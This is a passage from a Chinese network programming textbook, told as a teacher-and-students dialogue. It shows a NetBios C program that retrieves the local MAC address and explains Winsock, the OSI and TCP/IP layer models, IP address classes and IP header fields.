“这样就可以将 ncb 作为参数调用 NetBios 函数了：uRetCode = NetBios(&ncb);。类似地，我们再填充 ncb 的 ncb_command 为 NCBASTAT 命令，就可以得到电脑的 MAC 地址了。俗话说得好：好记性不如烂笔头，好概念不如源代码。我们再来看一个 NetBios 程序。”

“在 VC++2003 中建立一个 Win32 控制台项目，注意不要搞成 MFC 的了，然后在 cpp 文件里添加我们的代码，全部程序如下，其中有详细的注释。”

```c
#include "stdafx.h"
#include <windows.h>
#include <wincon.h>
#include <stdlib.h>
#include <stdio.h>
#include <time.h>

// NetBios 在 Netapi32.lib 中
#pragma comment(lib, "Netapi32")

// 返回值的结构
typedef struct _ASTAT_
{
    ADAPTER_STATUS adapt;
    NAME_BUFFER NameBuff[30];
} ASTAT, *PASTAT;

ASTAT Adapter;

int _tmain(int argc, _TCHAR* argv[])
{
    // 定义 NCB 变量
    NCB ncb;
    UCHAR uRetCode;

    // 执行复位命令
    // 清空 NCB
    memset(&ncb, 0, sizeof(ncb));

    // 设置 NCB 的 ncb_command 为 NCBRESET，表示复位
    ncb.ncb_command = NCBRESET;

    // 设置 NCB 的 ncb_lana_num
    ncb.ncb_lana_num = 0;

    // 将 NCB 作为参数调用 NetBios 函数，执行
    uRetCode = NetBios(&ncb);

    printf("The NCBRESET return code is: 0x%x\n", uRetCode);

    // 2. 执行 NCBASTAT 命令
    // 清空 NCB，设置 NCB 的命令为 NCBASTAT
    memset(&ncb, 0, sizeof(ncb));
    ncb.ncb_command = NCBASTAT;
    ncb.ncb_lana_num = 0;

    // 设置 NCB 的 ncb_callname、ncb_buffer、ncb_length
    strcpy((char *)ncb.ncb_callname, "*");
    ncb.ncb_buffer = (unsigned char *)&Adapter;
    ncb.ncb_length = sizeof(Adapter);

    // 将 NCB 作为参数调用 NetBios 函数，执行
    uRetCode = NetBios(&ncb);
    printf("The NCBASTAT return code is: 0x%x\n", uRetCode);

    // 3. 输出结果
    if (uRetCode == 0)
    {
        printf("The Ethernet Number is: %02x-%02x-%02x-%02x-%02x-%02x\n",
            Adapter.adapt.adapter_address[0],
            Adapter.adapt.adapter_address[1],
            Adapter.adapt.adapter_address[2],
            Adapter.adapt.adapter_address[3],
            Adapter.adapt.adapter_address[4],
            Adapter.adapt.adapter_address[5]);
    }

    return 0;
}
```





“运行程序，结果如下，得到了本机的 MAC 地址，如图 2-1。这和我们使用 `ipconfig /all` 命令得到的本机 MAC 地址是一样的，如图 2-2。”

“真的啊！MAC 地址都是 00-E0-4C-3E-6C-55。NetBios 编程好简单啊，填充一下要执行的命令，使用 NetBios() 函数直接调用就好了。”小菜们说道，“可以一条路走到黑，是我们向往的啊。”

“是的，而且 NetBios 在小型局域网环境下的实时通信有很高的效率。”老师补充道。

“哦？这么简单，又这么好，为什么我们不基于这个 NetBios 讲解编程呢？”

“可惜啊，可惜，NetBios 没有路由功能，所以不能用于真正的广域网通信，所以我们不继续探讨 NetBios 了，而是使用 Winsock 来实现通信。”

### 2.1.2 基于 Windows Socket 编程

第二种是基于 Winsock 的网络编程。这种方法使用一套简单的 Windows API 函数来实现应用层上的编程。80 年代初，美国政府的高级研究工程机构（ARPA）给加利福尼亚大学 Berkeley 分校提供了资金，让他们在 UNIX 操作系统下实现 TCP/IP 协议。在这个项目中，研究人员为 TCP/IP 网络通信开发了一个 API（应用程序接口），这个 API 称为 Socket 接口（套接字）。今天，Socket 接口是 TCP/IP 网络最为通用的 API，也是 Internet 上进行应用开发最为通用的 API。

90 年代初，由 Microsoft 联合了其他几家公司共同制订了一套 Windows 下的网络编程接口，即 Windows Sockets 规范。它是 Berkeley Sockets 的重要扩充，主要是增加了一些异步函数，并增加了符合 Windows 消息驱动特性的网络事件异步选择机制。Windows Sockets 规范是一套开放的、支持多种协议的 Windows 下的网络编程接口。从 1991 年的 1.0 版到 1995 年的 2.0.8 版，经过不断完善已成为 Windows 网络编程事实上的标准。目前，在实际应用中的 Windows Sockets 规范主要有 1.1 版和 2.0 版。两者的最重要区别是 1.1 版只支持 TCP/IP 协议，而 2.0 版则可以支持多协议。2.0 版有良好的向后兼容性，任何使用 1.1 版的源代码、二进制文件和应用程序都可以不加修改地在 2.0 规范下使用。

老师又说道：“WinSocket 是我们学习的重点，以后大部分的例子都是基于 WinSocket 实现的，我们会做详细的介绍。当然，除了 NetBios 和 Windows Socket 外还有一些其它的编程方法。”

### 2.1.3 基于 Winpcap 编程

第三种是直接网络编程。比如利用 Winpcap 等网络数据包构造技术，我们可以直接构造出在网络上传送的数据报文，这样我们能深入到链路层或网络层上去实现网络编程。

### 2.1.4 基于物理设备编程

第四种是基于物理设备的网络编程，即 MAC 层编程接口。这就涉及到硬件的编程了。

老师说道：“上面提到的几种方法，具体的实现大相径庭，但都只是编程的方法和所处的层次不同。NetBIOS 基于会话层，WinSocket 一般基于应用层，但原始套接字也可以基于更低的网络层，WinPcap 基于网络层或者链路层，物理设备当然是基于物理层了。而在本书的课程中，我们主要是使用 Windows Socket 编程。”



“哎呀呀，什么层，什么层的又来了。”小菜们嚷道：“老师还没有解释呢！”

“分层是人类解决问题的一种重要思想。使用分层，第一个原因是人类重新发明一个轮子是可行的，但完全没有必要，不仅是因为我们懒惰，更是为了配合软件工程学的一些基本原则；第二个原因是分层可以隐藏复杂的实现；第三个原因是分层可以导致不同的实现，引入竞争，从而促进技术不断的发展。”

老师继续说道：“在实际的生活中，大家都在自觉或不自觉地使用分层的思想。比如上节课我们讲过，在 Windows 系统下编程的时候，就是一个典型分层的例子。Windows 系统提供了用户态和核心态，一般我们编程只使用到用户态的接口，不用和底层的物理构件打交道，可以专注于应用程序功能的开发与扩展。用户态提供 API 外，还进行了封装，比如 MFC、VCL 等等，如图 2-3。”



“而数据库的开发也是一个典型的分层。微软 ODBC、BDE、ADO 的接口，使我们专注于数据库应用程序的开发，而不用管具体的数据库究竟是 SQL Server、Access 还是 Oracle，如图 2-4。”

| 层次 | 说明 |
|---|---|
| Application（应用层） | 提供标准服务，如远程聊天、文件传送、视频对话 |
| Presentation（表示层） | 规范不同系统间的数据表示与格式，保证兼容 |
| Session（会话层） | 管理用户会话和对话，控制连接建立与终止 |
| Transport（传输层） | 管理网络中端到端的信息传递，保证可靠传输 |
| Network（网络层） | 定义网络设备间如何传输数据，根据地址路由数据包 |
| Data Link（数据链路层） | 定义操作通道信息的程序，封装数据为数据帧并识别相邻设备间传输 |
| Physical（物理层） | 定义通过网络设备发送数据的物理方式、接口、电气及机械特性 |

“我们的人员管理、项目管理也是分层的例子。比如一个公司的技术总监，只和项目经理间有接口，而各个项目经理带领自己的团队，进行项目的开发，并负责向技术总监报告。但各个技术人员对技术总监来说是屏蔽的。这样分层后可以让各人都专注于自己的职务，创造最大的效益。”

“哦！原来分层有如此多好处，而且我们一直用它！”小菜们点头道。

“所以，网络协议的设计也采用了分层的思想，每一层分别负责不同的通信功能，可以做到简化和统一。”老师说道：“我们来看看网络通信协议和分层模型吧。”

## 2.2 网络通信协议原理和结构

任何一项改变世界的成果，都是一批批科学家持续不断研究的结果。Internet 掀起了人类第三次计算革命——信息革命的热潮，当然前辈们付出了艰辛的努力。为了让整个世界的计算机和网络连通，科学家们提出了一系列网络通信的方案、模型和解决方案。当然其中一些早已被淘汰，一些被后继者替代，一些只是小范围地沿用。“在那个充满革新的时代，不知道是不是也以 SCI 检索和 EI 检索为标准。”老师摇摇头说道，“一些成功的模型使用至今，成为 Internet 普及的支柱，也是工业上的规范。其中，最著名的模型是 OSI 七层模型和 TCP/IP 四层模型。”

### 2.2.1 ISO/OSI 七层模型

ISO/OSI（International Standard Organization/Open System Interconnection）是国际标准化组织 ISO 为了连通网络环境之间的资源而制定的“开放系统互联”参考模型。其目的是有了这个开放的模型后，各网络设备厂商就可以遵照共同的标准来开发网络产品，最终实现彼此兼容。ISO/OSI 模型从提出到 1984 年定稿经历了很长的时间，一共七层，每层功能和对应的相关功能，如图 2-5 所示。

“啊啊啊，真抽象呀。”小菜们伸伸懒腰说道。

看着小菜们不以为然的样子，老师说道：“不要小看这 OSI 七层模型，这可是科学家们心血的结晶啊，当时他们不知道掉了多少头发，熬出了多少血丝，费了多少点卡，开展了多少次工会活动才练就的等级啊。唉，Sorry。总之，不夸张地说，OSI 七层模型虽然是基于网络通信的，但人类间任何的通信都可以抽象成这七层。”

“唉？任何通信？”

“是的，不仅仅是计算机网络上通信，电话网的通信，就是我们任何实际中通信的例子，都可以用这七层来解释。”

“是吗？”小菜们愈发怀疑起来。

老师笑道：“大家有怀疑的思绪很好。”顿了一下，继续说道，“我随便举个例子，比如我给你们讲课，也是我向你们通信的过程，就可以用这七层模型来解释。”

“首先应用层的数据，就是我讲课的内容；然后表示层，就是我把我想说的内容，用中文表达出来；会话层，我注意你们的反应，如果发现你们不太能听清楚我的话，我就会大声一点，或者转个方向，让我能和你们保持连接；传输层保证传送的正确性，如果你们没理解某句话，说：‘什么？’我就会重复一遍。网络层寻址，如果我不叫某个人的名字，就是想说给所有的各位听，如果加上某个人的名字，就是想和他单独对话。数据链路层，就是喉咙震荡在空气中形成声波。物理层当然就是空气将我的声波进行传播了，如图 2-6。”



“嘿，还真的是呀，虽然这样子解释有点儿牵强……”小菜们点点头。

“再举个例子，比如你们正在看的这本书，通过我到你们的手中，更是 OSI 七层模型的经典过程。”

“应用层，当然就是你正在看本书的内容；表示层，就是出版社把内容排版、印刷、装订好，表示成书的样子；会话层，你给编辑部提出邮购，提供自己的地址，这就是会话；传输层，发行人员到邮局把书包装起来，写上印刷品标签，再写上你的通信地址，避免传递出错；网络层，邮局根据你的地址分发到下一站；数据链路层，邮局把书和其它去相同地方的东西装箱一起运输——陆运、空运、海运；物理层，邮递员亲自肩挑背扛传送到你的地方，如图 2-7。”



“哈哈，还真是这样！老师总结得真好啊！”小菜们终于由衷地佩服起来。

“哈哈哈哈，这全靠我锐利的眼光，敏捷的身手，熊的力量！鹰的眼睛！狼的速度！”

“……”

“但是，可惜啊……”

“可惜什么？”

“可惜的是 ISO/OSI 出炉得太晚了，事实上 Internet 标准已经在使用了，那就是 TCP/IP 协议。”

### 2.2.2 TCP/IP 协议

ISO/OSI 模型虽然考虑得很完全和周到，但在目前的 Internet 上，实际使用的却是 TCP/IP 协议。名称虽然是 TCP/IP 协议，但 TCP 协议和 IP 协议只是众多协议中的两个，因为它们比较重要，所以就用 TCP/IP 来称呼这整个协议簇了。其实 TCP/IP 协议是包含了很多协议的。

#### 1. TCP/IP 历史

TCP/IP 起源于 1964 年，美国国防部与几个大学及企业所成立的 ARPA（Advanced Research Projects Agency）Net 网络实验计划。在那个时候为了战争的需要，必须有一个牢固的网络系统来作为整个国防部的联系。这时美国一家公司为了满足国防部的需求而提出了一个解决方案。在这一方案中，有两项非常独特的见解：一为这个网络没有中控点，也就是说敌人无法破坏整个系统，除非敌人将整个系统破坏掉，否则系统在不完全破坏下仍可以继续运作；二为当系统传送过程中资料传送有问题时，网络系统可以自动侦测错误，而将资料完整传送完毕。有了这样的依据，美国于 1969 年便赋予 ARPA 这一项任务，建立一个系统，让分散在各地且完全不同的电脑系统可以无误地联系在一起。

在二十世纪六十年代后期和七十年代早期的大量研究下，TCP/IP 获得了长足的发展和应用，最终成为 Internet 实际的标准。TCP/IP 发展史上的一些重大事件如下：

- 1970 年，ARPANET 主机开始使用网络控制协议（NCP），这就是后来的传输控制协议（TCP）的雏形。
- 1972 年，Telnet 协议推出。Telnet 用于终端仿真以连接相异的系统。在二十世纪七十年代早期，这些系统使用不同类型的主机。
- 1973 年，文件传输协议（FTP）推出。FTP 用于在相异的系统间交换文件。
- 1974 年，传输控制协议（TCP）被详细规定下来。TCP 取代 NCP，它为人们提供了更可靠的通信服务。
- 1981 年，Internet 协议（IP）（又称 IP 版本 4［IPv4］）被详细规定下来。IP 为端到端传递提供寻址和路由功能。
- 1982 年，国防通信署（DCA）和 ARPA 建立了传输控制协议（TCP）和 Internet 协议（IP）作为 TCP/IP 协议套件。
- 1983 年，ARPANET 将 NCP 替换为 TCP/IP。
- 1984 年，域名系统（DNS）推出。DNS 可将域名（如 www.example.com）解析为 IP 地址（如 192.168.5.18）。
- 1995 年，Internet 服务提供商（ISP）开始向企业和个人提供 Internet 接入。
- 1996 年，超文本传送协议（HTTP）推出。万维网使用的就是 HTTP。
- 1996 年，第一套 IP 版本 6［IPv6］标准发布。

| TCP/IP 通讯协议 | 各项应用服务 |
|---|---|
| Application（应用层） | SMTP、TELNET、FTP、Gopher、WWW、NFS 等 |
|  | Socket、NetBIOS 协定 |
| Transport（运输层） | TCP、UDP |
| Internet（网络层） | IP、ICMP、IGMP |
| Network（链路层） | Ethernet、X.25、SLIP、PPP、ARP、RARP |
|  | 同轴电缆、电话线、网卡 |

图 2-8

#### 2. 协议层次

和 OSI 模型不同，TCP/IP 只有四层，分别是 Application（应用层）、Transport（运输层）、Internet（网络层）和 Network（链路层）。每层对应的常见协议如图 2-8 所示。

基于这样的层次，TCP/IP 中的较常用协议的流程如图 2-9 所示。



#### 3. TCP/IP 中的重要协议

“既然这个协议族叫做 TCP/IP，那其中最重要的协议当然就是 TCP 和 IP 协议了。”老师说道，“同 Socket 一样，IP、端口是很重要，但又绝不相同的概念。我们一定要分清楚！”

### IP 地址的独白：

大家好，我是 IP 地址，全称是网络协议地址。IP（网际协议）是我大哥，我很佩服它，因为著名的 TCP-IP 协议就是以我大哥的名字命名的。当时包括 ARP、UDP、ICMP 等各大协议华山论剑，商讨协议林的盟主，我大哥武功盖世，德高望重，但虚怀若谷。在万般推脱不成下，只好担任了协议林二盟主——其实 TCP 有什么了不起的，它能跑起来，全是我大哥的功劳。而我，IP 地址，是我大哥 IP 协议中的一段。虽然我很小——只占整个 IP 协议很少的一部分，但不要小看我，因为只有通过我才能确定 Internet 网上成千上万台机器的确切位置，只有通过我，路由器才知道数据该往哪儿转送，只有通过我，主机间才能互相通信。我就是主机在 Internet 网上身份的身份证。我和大哥为了信息化世界的建设都是死心塌地、忠贞不二的，为此贡献了我们全部青春和岁月。只要告诉了我们要去的远端主机，那么无论天涯海角，万水千山，我们一定会将信息准确无误地送到。这不，大哥又叫我出发了，风萧萧兮易水寒，错了，错了，应该是，青山不改，绿水长流，各位后会有期。附我和大哥的合影，如图 2-10。




#### 小知识：IP 的分类

互联网上的每个接口必须有一个唯一的 Internet 地址（也称作 IP 地址），IP 地址长 32 bit。Internet 地址并不采用平面形式的地址空间，如 1、2、3 等。IP 地址具有一定的结构，五类不同的互联网地址格式如图 2-11 所示。

这些 32 位的地址通常写成四个十进制的数，其中每个整数对应一个字节。这种表示方法称作“点分十进制表示法（Dotted decimal notation）”。例如，一个 C 类地址为：211.83.154.70。区分各类地址的最简单方法是看它的第一个十进制整数。而多接口主机具有多个 IP 地址，每个网卡接口都对应一个 IP 地址，所以不能说某台机器的 IP 是多少，而要说机器上的某块网卡的 IP 是多少，如图 2-12。

普通的 IP 首部长为 20 个字节，除非含有选项字段。

- 1. 版本占第一个字节的高四位，IPv4 的取值为 4，IPv6 的取值为 6。
- 2. 首部长度占第一个字节的低四位，表示 IP 头的 DWORD 个数，如果要转化为字节需要乘以 4，比如 IPv4 的首部长为 20 个字节，这个值就为 5。
- 3. 服务类型，前 3 位为优先字段，现在已经被忽略。接着 4 位为 TOS 字段，用来表示最小延迟、最大吞吐量、最高可靠性和最小费用。
- 4. 总长度字段是指整个 IP 数据报的长度，以字节为单位。利用首部长度字段和总长度字段，就可以知道 IP 数据报中数据内容的起始位置和长度。
- 5. 标识用来唯一地表示发送的每一个数据报。通常发一个就加一。
- 6. 存活时间 TTL 是封包的生存时间，每通过一个路由器，就会被减一，但这个值为 0 的时候被丢弃，并由 ICMP 通知源主机。这样可以防止广播风暴的形成。
- 7. 协议的定义取值如下：

| 类型 | 范围 |
|---|---|
| A | 0.0.0.0 到 127.255.255.255 |
| B | 128.0.0.0 到 191.255.255.255 |
| C | 192.0.0.0 到 223.255.255.255 |
| D | 224.0.0.0 到 239.255.255.255 |
| E | 240.0.0.0 到 247.255.255.255 |


```c
#define PROTOCOL_TCP  0x06  // TCP
#define PROTOCOL_UDP  0x11  // UDP
#define PROTOCOL_ICMP 0x01  // ICMP
#define PROTOCOL_IGMP 0x02  // IGMP
```


